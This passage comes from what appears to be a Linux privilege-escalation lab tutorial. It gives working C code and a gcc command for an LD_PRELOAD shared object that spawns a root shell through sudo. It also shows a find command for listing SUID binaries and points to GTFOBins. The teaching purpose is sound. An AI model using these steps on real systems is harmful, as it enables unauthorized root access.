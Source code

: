 The C code will simply spawn a root shell and can be written as follows:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

**`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`**

![](https://i.imgur.com/HxbszMW.png)

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

**`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`**

This will result in a shell spawn with root privileges.

![](https://i.imgur.com/1YwARyZ.png)

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.

You will notice these files have an “s” bit set showing their special permission level.

**`find / -type f -perm -04000 -ls 2>/dev/null`** will list files that have SUID or SGID bits set.

![](https://i.imgur.com/fJEeZ4m.png)

A good practice would be to compare executables on this list with GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list https://gtfobins.github.io/#+suid).

The list above shows that nano has the SUID bit set. Unfortunately, GTFObins does not provide us with an easy win. Typical to real-life privilege escalation scenarios, we will need to find intermediate steps that will help us leverage whatever minuscule finding we have.

![](https://i.imgur.com/rSRTn5v.png)

**Note**: The attached VM has another binary with SUID other than **`nano`**.
